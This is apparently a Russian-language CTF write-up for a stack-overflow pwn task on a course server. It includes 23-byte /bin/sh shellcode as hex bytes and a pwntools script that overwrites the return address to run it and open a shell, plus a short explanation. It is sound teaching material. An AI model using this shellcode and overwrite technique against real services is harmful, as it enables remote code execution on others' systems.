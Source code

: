 Прикольная задача, нет ни бинарника, ни иходников. Только первые 64 байта стека. Давайте зайдем к ним `nc is-course.ru 2403` и зашлем символ переноса строки. Получаем что-то. Давайте это что то отправим в чатгпт и спросим, что же это такое:

![image](/resourses/pwn5.png)

хм, возможный адрес возврата. Это то, что нам бы хотелось. Давайте возьмем шеллкод, который вызывает bin/sh (можно взять из shell exec, он размера 31, как раз влезает, но я нагуглил такой же шеллкод размером 23, его и возьмем) - \x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05

Давайте первые 24 байта стека трогать не будем, а вот адрес возврата перепишем на следующую ячейку, с которой будет начинаться наш шеллкод. Pwntools, я вызываю тебя!

```python
from pwn import *

def main():
    r = remote("is-course.ru", 2403)
    r.send(p64(0x007fffffffee0a)+p64(0x005555555552e0)+p64(0x007fffffffed00)+p64(0x007fffffffecf0)+b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05\x00")
    r.interactive()

if __name__ == '__main__':
    main()
```

Запускаем, получаем RCE. Пишем cat `flag.txt`, получаем флаг. Там действительно был адрес возврата, чатгпт умен.

Теперь для тех, кто не понял, что произошло. с 25 по 32 байт стека находится адрес возврата. Он указывает функции, что как только она дойдет до этого места, дальше нужно выполнять инструкции с адреса, который указан в этих байтах. Так вот мы подменили этот адрес на следующий адрес этого стека, в который закинули наш шеллкод, поэтому он исполнился. 